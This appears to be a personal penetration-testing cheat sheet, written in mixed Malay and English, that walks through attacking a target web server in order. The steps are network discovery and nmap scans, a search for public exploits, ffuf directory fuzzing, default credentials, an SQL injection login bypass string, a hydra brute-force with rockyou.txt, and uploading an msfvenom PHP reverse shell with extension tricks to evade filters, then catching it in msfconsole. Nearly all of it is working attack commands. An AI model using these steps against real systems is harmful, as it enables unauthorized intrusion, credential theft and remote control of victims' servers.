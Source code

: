basic reconnaisance, semua dalam turutan
## 1. cari IP target
`sudo netdiscover`

## 2. Scan port open
```bash
sudo nmap -p- --min-rate=1000 IP // scan dengan cepat, tp tak detail
sudo nmap -sC -sV -A -O IP // scan lambat, tapi detail
```

## 3. Cari vulnerable service
- result daripada nmap, google service punya version untuk cari public exploit
- buat untuk semua open port
- sometimes step ni tak dpt hasil
cth.
`port/80 http apache 2.3.4`
google: apache 2.3.4 exploit
			apache 2.3.4 vulnerability
			apache 2.3.4 exploit github

## if port 80 open, do this
### 1. cari directory/file dalam webserver
```bash
ffuf -u "http://IP/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -c -e .php,.txt,.html
```
### 2. kalau ada login, cuba buat ni
- login guna default credential
```bash
admin:admin
admin:password
root:root
admin:admin123
boleh google banyak lagi default credential
```
- test sql injection
```
username -> admin' or 1=1-- str
password -> admin
```
- try bruteforce
```bash
sudo hydra -l username -P /usr/share/wordlists/rockyou.txt IP http-post-form "/main/login.php:username=username&password=^PASS^:Invalid Password!"

ubah username jadi username yg betul, and ubah /main/login.php kepada file login yang betul (boleh tgok dkt url login).. also ubah IP
```
### 3. kalau ada upload file feature
- try upload .php file
  cara generate php file
```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

# IP kita and port kita.. biasa buat 4444
# nnti file tu akan ada dkt folder kita.. nak tahu folder mana tulis pwd
# then upload shell.php tu
```
- kalau .php tak berjaya, cuba rename file tukar extension jadi:
```
.php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar

# command rename -> mv shell.php shell.phtml
```
- kalau berjaya upload, run msfconsole
```bash
> msfconsole
> use exploit/multi/handler
> set LHOST IP-kita
> run
```
then ubah url supaya pergi /uploads/shell.php
- tengok msfconsole, kalau dapat connection tulis, `shell`
